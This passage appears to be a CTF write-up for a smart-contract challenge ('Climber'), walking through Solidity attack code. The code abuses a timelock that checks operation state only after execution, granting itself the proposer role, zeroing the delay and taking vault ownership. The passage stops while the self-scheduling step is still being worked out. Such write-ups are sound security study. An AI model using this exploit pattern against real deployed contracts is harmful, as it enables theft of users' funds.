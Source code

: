 This code deploys the AttackerClimber contract with the address of the vault, timelock, token and player/attacker, as a help logs the attacker/player contract.

With that setup in mind I started to create the solidity attack contract with the parameters for the execute function - first grant access to the proposer role on the timelock, then update the delay to 0 seconds on the timelock and transfer the ownership to my attacker contract:

```àpache
// attack to achive the role of the proposer for the timelock and the owner of the vault
targets = new address[](4);
values = new uint256[](4);
data = new bytes[](4);

//make the attacker contract the role of the proposer for the timelock
targets[0] = address(timelock);
values[0] = 0;
data[0] = abi.encodeWithSignature("grantRole(bytes32,address)", PROPOSER_ROLE, address(this));

//set the delay of the timelock to 0, so we can execute the calls immediately
targets[1] = address(timelock);
values[1] = 0;
data[1] = abi.encodeWithSignature("updateDelay(uint64)", 0);

//make the attacker contract the owner of the vault
targets[2] = address(vault);
values[2] = 0;
data[2] = abi.encodeWithSignature("transferOwnership(address)", address(this));
```

But how to pass the test `(getOperationState(id) != OperationState.ReadyForExecution)` in the execution function? It comes after the functioncall. If it would be before the function call, the attack above would be impossible. Still I need to pass the test, this works only if all elements are available.

```àpache
function getOperationId(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements, bytes32 salt) public pure returns (bytes32) {
   return keccak256(abi.encode(targets, values, dataElements, salt));
}
```

So it is obvious to schedule the task myself. Here I lost quite some time, because I wanted to make a call like this:

```àppache
....

targets[3] = address(timelock);
values[3] = 0;
data[3] = abi.encodeWithSignature("schedule(address[],uint256[],bytes[],bytes32)", targets,values,data,"0x0");

....
```
